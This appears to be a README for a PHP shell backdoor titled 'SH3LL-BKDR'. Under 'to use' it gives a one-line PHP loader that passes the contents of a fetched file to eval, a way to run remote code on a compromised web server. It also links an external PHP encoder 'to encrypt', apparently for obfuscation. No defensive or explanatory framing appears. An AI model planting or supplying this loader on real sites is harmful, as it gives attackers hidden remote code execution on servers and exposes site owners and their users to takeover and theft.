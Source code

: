 ## SH3LL-BKDR

### to use
```
<?php eval("?>".file_get_contents("link_raw.php"));?>
```
### to encrypt
* [Click here](http://phpencoder.atwebpages.com/index.php)
